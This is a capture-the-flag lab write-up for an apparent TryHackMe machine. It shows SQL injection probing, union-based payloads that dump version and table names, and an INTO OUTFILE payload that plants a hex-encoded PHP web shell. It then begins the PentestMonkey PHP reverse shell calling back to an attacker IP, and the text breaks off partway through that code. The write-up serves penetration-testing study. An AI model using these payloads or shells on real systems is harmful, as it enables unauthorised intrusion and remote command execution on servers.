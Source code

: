 Now we try to perform a sqli attack, by adding to the value a `'`. We get an error, so it is vulnerable to sqli attacks:

![](Pasted%20image%2020240322201749.png)

Now we try to perform a **union based** sqli by adding `' union select 1, @@version-- -` to the value:

![](Pasted%20image%2020240322201916.png)

As we can see, the OS is displayed, so we could try to dump the database tables with `' union select 1, table_name FROM information_schema.tables-- -`:

![](Pasted%20image%2020240322202109.png)

The table we find is called `queue`, so we can imagine that it only stores the number or identifier we are in the queue. Trying by another way, we can inject a web shell like this `' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -`, where the last part is hex encoded (means `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>`) and it's the current web shell, where we could perform the following reverse shell. 

Now search on the browser for `yearofdog.thm/shell.php?cmd=ls`:

![](Pasted%20image%2020240322202526.png)

Now that we can perform commands, we can upload a reverse php shell like **PentestMonkey** one:
- Note that this one is compressed and without comments, but is just for efficiency reasons:

- Create the shell like: `vim sexyshell.php` and paste the following script into it:

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.74.136'; //CHANGE THIS
$port = 666; //CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
```